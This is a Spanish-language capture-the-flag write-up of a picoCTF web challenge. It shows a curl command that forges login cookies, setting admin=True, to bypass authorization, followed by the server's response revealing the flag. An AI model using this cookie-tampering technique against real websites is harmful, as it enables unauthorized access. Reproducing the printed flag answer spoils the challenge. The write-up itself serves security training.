 # Objetivo

La fábrica oculta cosas a todos sus usuarios. ¿Puedes iniciar sesión como Joe y encontrar lo que han estado mirando? https://jupiter.challenges.picoctf.org/problem/15796/ (enlace) o http://jupiter.challenges.picoctf.org:15796
1. Hmm, ¿no parece verificar la contraseña de nadie, excepto la de Joe?

## Solución

Como no podemos entrar como Joe, iniciamos sesion con otro usuario y contrasena, encontraremos este mensaje:
`Éxito: ¡Has iniciado sesión! Aunque no estoy seguro de que puedas ver la bandera.`
Entonces, al inspeccionar la pagina, nos damos cuenta que tiene una coockie en la cual manda estos datos de usuario, password y user. Abrimos una terminal y usando el comando `curl` hacemos lo siguiente:
```
┌┌┌──(jesus㉿KaliJesus)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: usermane=jesus;Password=jesus;admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>                                                                                                                                   
┌──(jesus㉿KaliJesus)-[~]
└─$ 
```
Ahí encontraremos la contraseña.
## Notas adicionales

`HTTP Headers`->Permite al cliente (navegador) y servidor enviar información adicional junto a una petición o respuesta.
`curl`->Se usa en la linea de comandos para transferir datos con URLs.
## Referencias

https://www.godaddy.com/resources/latam/stories/que-es-comando-curl-como-usarlo#:~:text=cURL%2C%20que%20significa%20'Client%20for,HTTPS%2C%20FTP%20y%20muchos%20otros.
